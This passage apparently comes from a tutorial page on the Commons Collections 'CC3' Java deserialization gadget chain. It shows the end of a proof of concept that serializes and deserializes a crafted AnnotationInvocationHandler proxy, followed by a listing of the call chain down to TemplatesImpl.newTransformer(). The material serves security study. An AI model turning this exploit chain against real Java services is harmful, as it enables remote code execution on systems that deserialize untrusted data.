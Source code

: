 ```java
        Map map1 = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, map1);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new Object
OutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC3();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/13.png" alt="">

# Call chain

```java
AnnotationInvocationHandler.readObject()
   Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                            TemplatesImpl.newTransformer()
```
